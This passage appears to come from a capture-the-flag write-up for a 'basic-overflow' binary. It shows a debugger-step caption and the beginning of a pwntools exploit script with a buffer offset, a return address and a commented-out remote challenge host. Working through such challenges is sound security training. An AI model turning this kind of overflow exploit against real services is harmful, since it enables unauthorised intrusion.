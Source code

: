 <figure><img src="../../.gitbook/assets/image (62).png" alt=""><figcaption><p>Now we on <strong>shell</strong> function, just go <code>ni</code> to end the program and get the shell!</p></figcaption></figure>



### Exploit



Switch the comments to change from local to remote and vice versa&#x20;

```python
from pwn import *

context(arch='i386', os='linux')

# Set up the connection to the local binary
binary_path = './basic-overflow'  # Replace with the actual path to your binary
io = process(binary_path)

# Set up the connection to the remote service
# host = '34.123.15.202'
# port = 5000  # Replace with the actual port of the remote service
# io = remote(host, port)

# offset
offset = 72

# retaddr
ret_addr = 0x0000000000401136

# Receive data from the remote service
# data = io.recvline().strip()
# print(f"Received: {data}")
```